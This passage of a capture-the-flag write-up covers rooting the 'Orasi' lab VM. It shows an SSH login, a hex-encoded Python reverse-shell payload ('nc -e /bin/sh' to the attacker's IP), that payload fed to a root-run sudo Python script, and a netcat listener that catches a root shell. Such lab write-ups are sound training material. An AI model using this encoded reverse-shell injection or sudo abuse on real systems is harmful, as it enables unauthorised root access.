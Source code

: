 ```console
┌──(alienum㉿kali)-[~]
└─$ ssh irida@10.0.2.176
irida@10.0.2.176's password: <redacted0>.<redacted1>.<redacted2>.<redacted3><redacted4>

irida@orasi:~$ ls
irida.apk  user.txt
irida@orasi:~$
```
## String to Hex
```console
__import__('os').system('nc -e /bin/sh 10.0.2.15 1234')
5f5f696d706f72745f5f28276f7327292e73797374656d28276e63202d65202f62696e2f73682031302e302e322e313520313233342729
```
## Root shell
#### Orasi VM
```console
irida@orasi:~$ sudo -l
Matching Defaults entries for irida on orasi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User irida may run the following commands on orasi:
    (root) NOPASSWD: /usr/bin/python3 /root/oras.py
irida@orasi:~$ sudo -u root /usr/bin/python3 /root/oras.py
: 5f5f696d706f72745f5f28276f7327292e73797374656d28276e63202d65202f62696e2f73682031302e302e322e313520313233342729
```
#### My Listener
```console
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 1234                                                                                              1 ⚙
listening on [any] 1234 ...
connect to [10.0.2.15] from 10.0.2.176 [10.0.2.176] 33580
/usr/bin/script -qc /bin/bash /dev/null
root@orasi:/home/irida# cd
cd
root@orasi:~# ls
ls
oras.py  root.txt
root@orasi:~#
```
